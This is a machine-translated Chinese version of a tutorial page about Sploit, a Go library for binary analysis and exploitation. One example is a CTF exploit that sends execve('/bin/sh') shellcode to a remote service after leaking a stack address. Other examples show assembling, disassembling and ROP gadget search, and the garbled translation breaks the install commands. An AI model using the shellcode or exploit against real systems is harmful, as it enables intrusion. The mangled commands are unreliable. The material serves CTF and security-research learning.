 # Sploit : Go 包有助于二进制分析和开发

> 原文：<https://kalilinuxtutorials.com/sploit/>

[![Sploit : Go Package That Aids In Binary Analysis And Exploitation](img/7881ae522d9b4b1458ae8f97a46cc623.png "Sploit : Go Package That Aids In Binary Analysis And Exploitation")](https://1.bp.blogspot.com/-eYg86H6H0sM/X-PEXafulXI/AAAAAAAAINM/fvAWG5ryQSMszJkHQ9H1mnsdtaoQQXxogCLcBGAsYHQ/s728/Sploit%25281%2529.png)

Sploit 是一个 Go 包，有助于二进制分析和开发。sploit 开发背后的推动因素是能够拥有一个设计良好的 API，其功能可以与一些更常见的 Python 开发框架相媲美，同时利用 Go 编程语言。出色的交叉编译器支持、goroutines、强大的加密库和静态类型只是选择 Go 的几个原因。

这个项目的灵感来自 pwntools 和其他一些很棒的项目。它仍处于早期发展阶段。预计该项目将重点关注外壳编码、二进制补丁、ROP 堆栈构建和一般二进制分析。

**CTF 挑战赛的解决方案**

```
package main;

import(
    sp "github.com/zznop/sploit"
)

var arch = &sp.Processor {
    Architecture: sp.ArchI386,
    Endian: sp.LittleEndian,
}

var scInstrs = `mov al, 0xb   /* __NR_execve */
                sub esp, 0x30 /* Get pointer to /bin/sh (see below) */
                mov ebx, esp  /* filename (/bin/sh) */
                xor ecx, ecx  /* argv (NULL) */
                xor edx, edx  /* envp (NULL) */
                int 0x80`

func main() {
    shellcode, _ := sp.Asm(arch, scInstrs)
    r, _ := sp.NewRemote("tcp", "some.pwnable.on.the.interwebz:10800")
    defer r.Close()
    r.RecvUntil([]byte("HELLO:"), true)

    // Leak a stack address
    r.Send(append([]byte("/bin/sh\x00AAAAAAAAAAAA"), sp.PackUint32LE(0x08048087)...))
    resp, _ := r.RecvN(20)
    leakAddr := sp.UnpackUint32LE(resp[0:4])

    // Pop a shell
    junk := make([]byte, 20-len(shellcode))
    junk = append(junk, sp.PackUint32LE(leakAddr-4)...)
    r.Send(append(shellcode, junk...))
    r.Interactive()
}
```

**将汇编编译成机器码**

```
package main;

import(
    "github.com/zznop/sploit"
    "encoding/hex"
    "fmt"
)

func main() {
    instrs := "mov rcx, r12\n"              +
              "mov rdx, r13\n"              +
              "mov r8, 0x1f\n"              +
              "xor r9, r9\n"                +
              "sub rsp, 0x8\n"              +
              "mov qword [rsp+0x20], rax\n"

    arch := &sploit.Processor {
        Architecture: sploit.ArchX8664,
        Endian: sploit.LittleEndian,
    }

    opcode, _ := sploit.Asm(arch, instrs)
    fmt.Printf("Opcode bytes:\n%s\n", hex.Dump(opcode))
}
```

```
$ ./assemble_example
Opcode bytes:
00000000  4c 89 e1 4c 89 ea 49 c7  c0 1f 00 00 00 4d 31 c9  |L..L..I......M1.|
00000010  48 83 ec 08 48 89 44 24  28                       |H...H.D$(| 
```

**在 ELF 可执行文件中反汇编代码**

```
package main;

import(
    "github.com/zznop/sploit"
    "fmt"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    vaddr := uint64(0x1135)
    count := 34
    fmt.Printf("Disassembling %v bytes at vaddr:%08x\n", count, vaddr)
    disasm, _ := elf.Disasm(vaddr, count)
    fmt.Print(disasm)
}
```

```
$ ./disassemble_example
Disassembling 34 bytes at vaddr:00001135
00001135: push rbp
00001136: mov rbp, rsp
00001139: sub rsp, 0x10
0000113d: mov dword ptr [rbp - 4], edi
00001140: mov qword ptr [rbp - 0x10], rsi
00001144: lea rdi, [rip + 0xeb9]
0000114b: call 0x1030
00001150: mov eax, 0
00001155: leave
00001156: ret 
```

**查询和过滤 ROP 小工具**

```
package main;

import(
    "github.com/zznop/sploit"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    rop, _ := elf.ROP()

    matched, _ := rop.InstrSearch("pop rbp")
    matched.Dump()
}
```

```
0000111f: pop rbp ; ret
0000111d: add byte ptr [rcx], al ; pop rbp ; ret
00001118: mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
00001113: call 0x1080 ; mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
000011b7: pop rbp ; pop r14 ; pop r15 ; ret
000011b3: pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011b2: pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011af: add esp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011ae: add rsp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
... 
```

**依赖关系**

Sploit 的一些功能依赖于外部依赖。例如，Sploit 使用 GCC 的 GAS assembler 来编译汇编代码，使用 capstone 来反汇编编译后的代码，作为由`asm.go`公开的 API 的一部分。

**安装顶石:**

**git 克隆 https://github.com/aquynh/capstone.git–分支 4 . 0 . 2–单分支
cd 顶石
制作
sudo 制作安装**

安装 GCC 交叉编译器。以下命令假设您在 Intel 工作站上运行 Debian 或 Ubuntu，如果运行另一个 Linux 发行版，可能需要更改:

**sudo 安装 gcc gcc-arm-Linux-gnueabi gcc-aarch 64-Linux-GNU gcc-MIPS-Linux-GNU \ gcc-mipsel-Linux-GNU gcc-powerpc-Linux-GNU**

[**Download**](https://github.com/zznop/sploit)